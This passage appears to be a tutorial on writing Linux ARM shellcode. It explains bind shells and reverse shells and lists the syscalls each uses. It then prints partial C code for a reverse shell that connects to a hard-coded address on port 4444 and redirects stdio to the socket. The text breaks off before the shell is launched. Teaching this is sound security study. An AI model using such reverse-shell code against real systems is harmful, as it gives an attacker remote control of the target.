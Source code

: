 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [jumpnowtek.com](https://jumpnowtek.com/shellcode/linux-arm-shellcode-part3.html)

Some more useful examples of shellcode are a [bind-shell](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/) and a [reverse-shell](https://azeria-labs.com/tcp-reverse-shell-in-assembly-arm-32-bit/).

Metasploit has some more documentation on their wiki [How to use a reverse shell in Metasploit](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit).

If you have done any C socket programming, then the concepts are pretty basic.

The only new idea might be the remapping of stdio to the socket followed with the launching of a shell.

A **bind-shell** is a tcp server with stdio mapped to the client socket after it connects before a new shell is started. The remote client gets shell access to the target through the network socket.

The syscalls needed for a **bind-shell** are

*   socket
*   bind
*   listen
*   accept
*   dup2
*   execve

A **reverse-shell** is even simpler, but requires a remote listener for the target to connect to. The target makes a network connection to the remote, maps the socket descriptor to stdio and launches a shell.

The syscalls needed for a **reverse-shell** are

*   socket
*   connect
*   dup2
*   execve

For both of these examples the new assembly language concepts are

1.  Moving an immediate constant greater then 255 to a register
    
2.  Saving the return value from a syscall
    
3.  Working with a C struct data object
    

Starting with the **reverse-shell** since the code is smaller, this is the equivalent C code

```
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

int main()
{
    struct sockaddr_in sa;

    int fd = socket(AF_INET, SOCK_STREAM, 0);

    sa.sin_family = AF_INET;
    sa.sin_port = htons(4444);
    sa.sin_addr.s_addr = inet_addr("192.168.10.12");

    connect(fd, (struct sockaddr *)&sa, sizeof(sa));

    dup2(fd, 0);
    dup2(fd, 1);
```